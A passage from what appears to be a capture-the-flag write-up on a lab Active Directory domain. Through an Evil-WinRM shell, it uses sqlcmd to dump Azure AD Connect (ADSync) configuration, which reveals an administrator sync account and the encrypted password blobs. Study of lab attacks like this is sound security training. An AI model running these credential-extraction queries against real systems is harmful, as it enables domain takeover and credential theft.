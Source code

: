```powershell
ma_schema_xml
attribute_inclusion_xml
controller_configuration_xml
controller_configuration_password
private_configuration_xml
encrypted_configuration
dn_construction_xml
component_mappings_xml
full_import_required
full_sync_required
```


# private_configuration dump
```powershell
*Evil-WinRM* PS C:\Program Files> sqlcmd -Q 'use ADSync;select private_configuration_xml from mms_management_agent'
Changed database context to 'ADSync'.
private_configuration_xml
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
<MAConfig>
      <primary_class_mappings>
        <mapping>
          <primary_class>contact</primary_class>
          <oc-value>contact</oc-value>
        </mapping>
        <mapping>
          <primary_class>device</primary_class>
          <oc-v
<adma-configuration>
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL

(2 rows affected)
```


Password is removed from this xml, it is stored somewhere else, in encrypted_configuration

# encrypted_configuration
```
*Evil-WinRM* PS C:\Users\mhope\Documents> sqlcmd -Q 'use ADSync;select encrypted_configuration from mms_management_agent'
Changed database context to 'ADSync'.
encrypted_configuration
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
8AAAAAgAAACfn4Lemwuy/a+hBmbvJMeKVf/3ScxlxjHq9eM7Gjy2YLrrsqeRUZh51ks9Dt6BFTSd8OdCHG209rYsFX6f5Az4ZdpscNYSncIaEaI4Re4qw4vNPSIb3DXX6FDtfQHF97fVDV6wp4e3XTni1Y/DEATO+fgJuveCSDf+lX0UNnQEGrTfdDY9sK5neJ5vquLr0pdobAI6vU2g55IrwahGfKmwFjWF5q+qJ3zGR1nfxgsc0xRUNY2xWKoz
8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g
```
